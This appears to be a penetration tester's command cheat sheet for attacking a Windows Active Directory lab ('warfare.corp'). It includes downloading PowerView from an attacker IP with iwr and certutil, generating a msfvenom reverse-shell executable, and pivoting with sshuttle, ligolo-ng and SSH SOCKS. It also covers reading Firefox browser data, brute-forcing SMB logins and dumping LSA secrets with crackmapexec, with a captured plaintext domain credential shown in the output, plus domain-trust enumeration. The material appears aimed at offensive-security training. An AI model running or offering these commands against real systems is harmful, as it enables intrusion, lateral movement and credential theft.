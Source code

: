 # Download file
	run in powershell -> iwr http://10.10.10.10:8000/PowerView.ps1 -OutFilew C:\Windows\Temp\PowerView.ps1

 	run in cmd -> certutile -urlcache -split -f http://10.10.10.10:8080/PowerView.ps1 PowerView.ps1

# mfsvenom

	msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9999 -f exe -o rev.exe

# Pivoting

Sshuttle Command:

	sshuttle -r user@remote_host:2222 192.168.98.0/24 
	sshuttle -r user@remote_host 192.168.98.0/24 

	192.168.98.0/24 -> get from check ifconfig when see 2 adapter
	
	after shuttle
	
	nmap -sC -sV 192.168.98.5 -> IP for Pivoting

ligolo-ng

	#Attacker Machine, download proxy & agent :
	
	#Proxy
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz

	#Agent
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

	Setup the ligolo-ng proxy in the attacker machine & ligolo-ng in the victim machine.

	# Attacker Machine
	sudo ip tuntap add user kali mode tun ligolo

	#Delete the 192.168.98.0/24 IP Range from the tun0 interface :
	sudo ip route del 192.168.98.0/24 dev tun0
	#Up the ligolo interface :
	sudo ip link set ligolo up
	#Add 192.168.98.0/24 IP range to the ligolo interface :
	sudo ip route add 192.168.98.0/24 dev ligolo

	Confirm the route on your attacker machine.

	ip route

	Start the proxy on the attacker server
	./proxy -selfcert -laddr 0.0.0.0:443

	Transfer the agent on the victim machine & start the connection
	#Replace this with your attacker IP address.
	./agent -connect 10.10.200.124:443 -ignore-cert

	session
	list_tunnels
	start

SSH Pivoting

	ssh -D 8088 privilege@192.168.80.10
	netstat -ano | grep 8088




# Firefox Find Information

	ls -la .mozilla/
	cd .mozilla/firefox/
	# The filename may vary on your infrastructure, identify & use accordingly
	cd b2rri1qd.default-release
	
	sqlite3 places.sqlite
	.tables
	select * from moz_bookmarks;

# SMB

SMB Bruteforce IP List with one username and password

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" -u "john" -p "User1@#$%6" ; done

SMB check information 

	crackmapexec smb 192.168.98.2

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" sleep 10; done

SMB LSA 

	crackmapexec smb 192.168.98.30 -u john -p User1@#$%6 --lsa

	Output: 
		SMB         192.168.98.30   445    MGMT             			corpmngr@child.warfare.corp:User4&*&*

	



# Error NTP with kerberous Attack AD

	sudo apt update
	sudo apt install ntpdate
	timedatectl 
	timedatectl set-ntp true
	reboot
	sudo systemctl start ntp
	sudo systemctl status ntp


# AD PowerView

	
	# Get-AdForest 
	
	
	ApplicationPartitions : {DC=DomainDnsZones,DC=warfare,DC=corp, DC=DomainDnsZones,DC=child,DC=warfare,DC=corp, 
	                        DC=ForestDnsZones,DC=warfare,DC=corp}
	CrossForestReferences : {}
	DomainNamingMaster    : dc01.warfare.corp
	Domains               : {child.warfare.corp, warfare.corp}
	ForestMode            : Windows2016Forest
	GlobalCatalogs        : {dc01.warfare.corp, cdc.child.warfare.corp}
	Name                  : warfare.corp
	PartitionsContainer   : CN=Partitions,CN=Configuration,DC=warfare,DC=corp
	RootDomain            : warfare.corp
	SchemaMaster          : dc01.warfare.corp
	Sites                 : {Default-First-Site-Name}
	SPNSuffixes           : {}
	UPNSuffixes           : {}



	PS C:\Windows\Temp> net localgroup Administrators 
	net localgroup Administrators
	Alias name     Administrators
	Comment        Administrators have complete and unrestricted access to the computer/domain
	
	Members
	
	-------------------------------------------------------------------------------
	Administrator
	corpmngr


	# Get-ADTrust -Filter *
	Direction               : BiDirectional -> communication Both ways
	DisallowTransivity      : False
	DistinguishedName       : CN=warfare.corp,CN=System,DC=child,DC=warfare,DC=corp
	ForestTransitive        : False
	IntraForest             : True
	IsTreeParent            : False
	IsTreeRoot              : False
	Name                    : warfare.corp -> parent domain name
	ObjectClass             : trustedDomain
	ObjectGUID              : 59bbc30c-d218-495f-a48c-b728a42eb732
	SelectiveAuthentication : False
	SIDFilteringForestAware : False
	SIDFilteringQuarantined : False
	Source                  : DC=child,DC=warfare,DC=corp -> child.warfare.corp
	Target                  : warfare.corp
	TGTDelegation           : False
	TrustAttributes         : 32
	TrustedPolicy           : 
	TrustingPolicy          : 
	TrustType               : Uplevel
	UplevelOnly             : False
	UsesAESKeys             : False
	UsesRC4Encryption       : False



	# Get-DomainTrust -Filter *
	
	
	SourceName      : child.warfare.corp -> for our source
	TargetName      : warfare.corp
	TrustType       : WINDOWS_ACTIVE_DIRECTORY
	TrustAttributes : WITHIN_FOREST
	TrustDirection  : Bidirectional -> communicate
	WhenCreated     : 1/17/2025 2:30:03 PM
	WhenChanged     : 4/10/2025 12:30:34 PM

 	** net user /dom
  	** net group /dom


